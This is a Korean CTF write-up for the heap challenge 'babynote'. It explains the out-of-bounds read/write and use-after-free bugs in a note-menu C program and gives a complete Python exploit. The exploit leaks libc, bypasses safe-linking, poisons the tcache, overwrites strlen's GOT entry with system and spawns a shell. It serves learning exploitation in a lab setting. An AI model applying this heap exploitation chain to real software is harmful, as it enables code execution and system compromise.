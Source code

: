 # pwn-hspace_babynote

# Usage
- 2024.07#0

# Concept
- Use-After_Free

# Writeup

####  chall.py
```c
    while (1){
        menu();
        int choice;
        printf(">> ");
        scanf("%d", &choice);
        switch (choice){
            case 1:
                add();
                break;
            case 2:
                edit();
                break;
            case 3:
                show();
                break;
            case 4:
                delete();
                break;
            case 5:
                exit(0);
                break;
            default:
                puts("Invalid choice");
                break;
        }
    }
```
일반적인 노트 문제와 같이 add, edit, show, delete 메뉴가 주어집니다.

```c
void add()
{
    int idx, lines;
    char buf[0x100];
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    printf("Lines: ");
    scanf("%d", &lines);
    char* temp = (char*)malloc(lines*0x10ULL);
    if (temp == NULL){
        puts("malloc failed");
        return;
    }
    pages[idx] = temp;
    printf("Note: ");
    read(0, pages[idx], lines*0x10ULL);
}
```
add 메뉴로 최대 20개까지 (사용자가 입력한 line * 0x10)의 크기로 청크를 할당하고 입력할 수 있습니다.


```c
void edit()
{
    int idx;
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    if (pages[idx] == NULL){
        puts("Invalid index");
        return;
    }
    char* cur = pages[idx];
    printf("Line: ");
    scanf("%d", &idx);
    cur += 0x10ULL*idx;
    printf("Note: ");
    read(0, cur, 0x10ULL);
}
```
edit 메뉴로 할당받은 청크부터 임의의 offset만큼 떨어진 주소에 0x10만큼 write할 수 있는 OOB Write 취약점이 주어집니다. (*Note: 음수 offset도 가능)

```c
void show()
{
    int idx;
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >=20){
        puts("Invalid index");
        return;
    }
    if (pages[idx] == NULL){
        puts("Invalid index");
        return;
    }
    char* cur = pages[idx];
    printf("Line: ");
    scanf("%d", &idx);
    cur += 0x10ULL*idx;
    printf("%s", cur);
}
```
마찬가지로 show 메뉴에서도 할당된 청크로부터 임의 offset만큼 떨어진 주소에서 0x10만큼 read할 수 있는 OOB 취약점이 주어집니다.

```c
void delete()
{
    int idx;
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    if (pages[idx] == NULL){
        puts("Invalid index");
        return;
    }
    free(pages[idx]);
}
```
마지막으로 delete 메뉴에서는 할당된 청크를 해제하지만, pages 배열에서 클리어하지 않아 dangling pointer에 접근할 수 있습니다. 


#### Exploit Scenario
정리해보면 힙에서 자유롭게 relative-read/write를 할 수 있는 상황입니다. 거기에 더해 UAF가 가능하기 때문에 다음과 같은 익스플로잇 시나리오를 구성할 수 있습니다.

- unsorted bin에 청크를 넣고 show를 사용하여 main_arena(->libc base)를 릭
- tcache에 청크를 넣고 edit 기능으로 next를 strlen@plt.got-0x10으로 설정 (tcache poisoning)
- 이후 strlen@got-0x10에 청크를 할당받아 strlen@plt.got를 system으로 overwrite
- printf("%s", '/bin/sh')를 호출해서 쉘 획득 

이를 구현한 익스플로잇 코드는 다음과 같습니다.

#### ex.py
```python

def exploit(p):
    offset = 0x21a090 # strlen_evex@got

    for i in range(8):
        add(10+i,0x400,b"A"*0x10)
    for i in range(7): # fill tcache
        delete(11+i)
    delete(10) # free -> unsorted bin 
    show(10, 0) # main_arena leak
    libc_base = u64(p.recv(6).ljust(8, b"\x00")) - 0x21ace0
    log.info("libc_base: 0x{:x}".format(libc_base))
    system = libc_base + libc.sym["system"]
    add(0, 0x10, b"/bin/sh\x00"*2) # chunk for printf("%s", '/bin/sh')
    add(1, 0x10, b"A"*0x10)
    add(2, 0x10, b"A"*0x10)
    delete(1)
    delete(2)

    show(2, 0) # bypass safe linking
    leak = u64(p.recv(6).ljust(8, b"\x00"))
    heap_ptr = decrypt(leak)
    log.info("heap_ptr: 0x{:x}".format(heap_ptr))
    edit(2, 0, p64(encrypt(libc_base+offset))*2) # tcache poisoning
    add(3, 0x10, "AAAAA")
    add(3, 0x10, p64(system)*2) # overwrite strlen_evx@got
    show(0,0) # trigger printf("%s", '/bin/sh')

    p.sendline("cat flag.txt")
    print(p.recv(0x100))
    p.interactive()
    return
```
